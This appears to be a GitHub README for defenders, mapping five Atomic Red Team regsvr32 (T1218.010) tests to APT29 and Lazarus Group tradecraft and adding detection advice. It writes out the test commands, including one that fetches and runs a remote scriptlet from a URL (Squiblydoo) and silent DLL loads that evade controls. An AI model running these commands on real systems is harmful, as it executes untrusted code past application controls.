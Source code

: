 # Atomic Red Team Tests for APT29 and Lazarus Group - T1218.010 Signed Binary Proxy Execution: Regsvr32

This repository documents selected **Atomic Red Team tests for T1218.010 (Signed Binary Proxy Execution: Regsvr32)** that closely emulate the tradecraft of **APT29** (a.k.a. Cozy Bear, Midnight Blizzard) and **Lazarus Group**.

The goal is to:
* Provide defenders with a curated set of relevant tests for detecting regsvr32 abuse activities
* Map each test to known adversary behaviors and campaigns
* Highlight overlap and differences between the groups' execution techniques

---

## Background

* **APT29** (Cozy Bear, Midnight Blizzard) is a Russian state-sponsored threat group
  * Known for sophisticated cyber espionage and the **SolarWinds compromise**
  * Frequently uses **living-off-the-land techniques** with legitimate system utilities
  * Employs **regsvr32.exe** to execute malicious payloads and bypass application controls

* **Lazarus Group** is a North Korean state-sponsored threat group
  * Known for **financial theft campaigns** and destructive attacks including **Operation Dream Job**
  * Uses **regsvr32.exe** to execute malicious payloads on compromised hosts
  * Leverages multiple execution methods to evade security controls

Both groups leverage T1218.010 (Regsvr32) because it allows them to:
* Execute malicious code through a trusted Microsoft-signed binary
* Bypass application control solutions using legitimate Windows components
* Load and execute remote scripts via URL invocation (Squiblydoo technique)
* Avoid detection by blending with normal system operations
* Register malicious COM objects for persistence

---

## Selected Atomic Tests for T1218.010

| Test # | Technique | Description | Used By |
|--------|-----------|-------------|---------|
| **1** | Local COM Scriptlet Execution | Executes local COM scriptlets through regsvr32 | **APT29 & Lazarus** |
| **2** | Remote COM Scriptlet Execution | Executes remote scripts via URL (Squiblydoo) | **APT29** |
| **3** | Local DLL Execution | Executes local DLL files through regsvr32 | **Lazarus** |
| **4** | Registering Non-DLL Files | Registers files with altered extensions | **APT29** |
| **5** | Silent DLL Install | Installs DLLs with DllRegisterServer call | **Lazarus** |

---

## Detailed Test Analysis

### Atomic Test #1 - Regsvr32 local COM scriptlet execution
**Technique:** Local COM Scriptlet Execution  
**Adversary Usage:** APT29 & Lazarus Group  
**Command:**
```cmd
regsvr32.exe /s /u /i:"PathToAtomicsFolder\T1218.010\src\RegSvr32.sct" scrobj.dll
```
**Explanation:** Both groups use regsvr32 to execute local COM scriptlets, leveraging the trusted Windows binary to evade detection. APT29 has used this technique in various campaigns to execute payloads without writing to disk, while Lazarus has employed similar methods in financial attacks.

### Atomic Test #2 - Regsvr32 remote COM scriptlet execution
**Technique:** Remote Script Execution (Squiblydoo)  
**Adversary Usage:** APT29  
**Command:**
```cmd
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct scrobj.dll
```
**Explanation:** APT29 uses the Squiblydoo technique to execute remote scripts directly from URLs, avoiding file writes and bypassing traditional file-based detections. This advanced technique demonstrates their sophisticated tradecraft for defense evasion.

### Atomic Test #3 - Regsvr32 local DLL execution
**Technique:** Local DLL Execution  
**Adversary Usage:** Lazarus Group  
**Command:**
```cmd
regsvr32.exe /s PathToAtomicsFolder\T1218.010\bin\AllTheThingsx86.dll
```
**Explanation:** Lazarus Group frequently uses regsvr32 to execute local DLL payloads, particularly in their financial campaigns. This straightforward approach allows them to leverage trusted system utilities while maintaining operational simplicity.

### Atomic Test #4 - Regsvr32 Registering Non-DLL Files
**Technique:** File Extension Obfuscation  
**Adversary Usage:** APT29  
**Command:**
```cmd
regsvr32.exe /s %temp%\shell32.jpg
```
**Explanation:** APT29 uses file extension obfuscation to disguise malicious DLLs as other file types (e.g., .jpg, .txt). This technique evades basic file type detection and allows them to bypass security controls that focus on traditional DLL files.

### Atomic Test #5 - Regsvr32 Silent DLL Install Call DllRegisterServer
**Technique:** Silent DLL Installation  
**Adversary Usage:** Lazarus Group  
**Command:**
```cmd
regsvr32.exe /s /i "PathToAtomicsFolder\T1218.010\bin\AllTheThingsx86.dll"
```
**Explanation:** Lazarus Group uses silent installation techniques to deploy malicious components with minimal visibility. This approach allows them to establish persistence and execute payloads while avoiding user interaction and detection.

---

## Correlation with APT29 & Lazarus

* **APT29 Focus:**
  * Advanced techniques like remote script execution (#2 - Squiblydoo)
  * File extension obfuscation (#4 - non-DLL registration)
  * Sophisticated tradecraft for defense evasion
  → Used for stealthy payload execution during espionage operations

* **Lazarus Group Focus:**
  * Direct DLL execution (#3 - local DLL loading)
  * Silent installation methods (#5 - DllRegisterServer)
  * Rapid payload deployment
  → Used for financial theft and destructive attacks

* **Overlap:**
  * Both groups abuse **regsvr32.exe** for execution
  * Both leverage **trusted Windows utilities** to evade detection
  * Both use **COM scriptlet execution** (#1) for payload delivery
  * Both employ **multiple execution methods** in attack chains

---

## Defender Notes

* These tests are high-value because they **closely emulate real-world adversary tradecraft**
* Detection should focus on:
  * regsvr32.exe with unusual command-line arguments (/s, /u, /i)
  * regsvr32.exe executing remote content from URLs (#2)
  * regsvr32.exe loading files with unusual extensions (#4)
  * regsvr32.exe executing from unusual directories or with unusual parent processes
  * Multiple regsvr32 execution methods chained together

* Correlation across events is essential:
  * Process creation + network connections for remote script loading
  * Command line analysis for obfuscation techniques
  * Parent-child process relationships involving regsvr32
  * File operations with unusual extensions being registered

* Implement application control to restrict regsvr32.exe if not needed for business purposes
* Monitor for regsvr32.exe execution patterns that deviate from normal administrative use

## Campaign References

1. **APT29 Various Operations**: Used regsvr32 for remote script execution and COM hijacking in multiple campaigns
2. **Lazarus Financial Campaigns**: Employed regsvr32 for payload execution in banking network penetration
3. **APT29 SolarWinds Campaign**: Leveraged multiple living-off-the-land techniques including regsvr32 abuse
4. **Lazarus Operation GhostSecret**: Used regsvr32 for payload execution in destructive attacks

## Academic References

1. MITRE ATT&CK Technique T1218.010 - Signed Binary Proxy Execution: Regsvr32
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (Lazarus Group TTPs)
4. CrowdStrike: "APT29 Tradecraft and Techniques" (2023)
5. FireEye: "Regsvr32 Targeting Mongolian Government" (Squiblydoo technique)